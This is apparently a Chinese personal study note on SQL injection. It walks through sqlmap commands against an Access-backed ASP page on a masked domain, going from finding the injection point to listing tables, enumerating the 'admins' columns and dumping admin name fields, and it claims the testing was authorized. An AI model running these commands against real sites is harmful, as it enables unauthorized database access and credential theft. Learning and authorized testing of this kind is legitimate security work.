 ```yaml
---
title: sql注入学习笔记03
categories:
- sql注入
tags:
- 学习笔记
updated: 2018-06-30
---
```




sqlmap实际应用：（已有授权）

**access数据库**

Sqlmap -u "http://www.xxxx.com/news_list.asp?class=137" 

有注入点，可以看到：

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_20.png" />

注入方式是：GET型

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_21.png" />

access数据库，由于 Access 的特殊性，它只能管理一个数据库，因此我们不需 要获取它的数据库。直接获取它的表名，命令为：

Sqlmap -u "http://www.xxxx.com/news_list.asp?class=137" --tables ，结果如下图： 

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_22.png" />

然后就是获取admins里的字段



Sqlmap -u "http://www.xxxx.com/news_list.asp?class=137" -T admins --columns 

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_23.png" />

接下来就不写了，url构造: Sqlmap -u "http://www.xxxx.com/news_list.asp?class=137" -T admins -C  aname,xxx --dump(我可能注入了一个假站。。。)

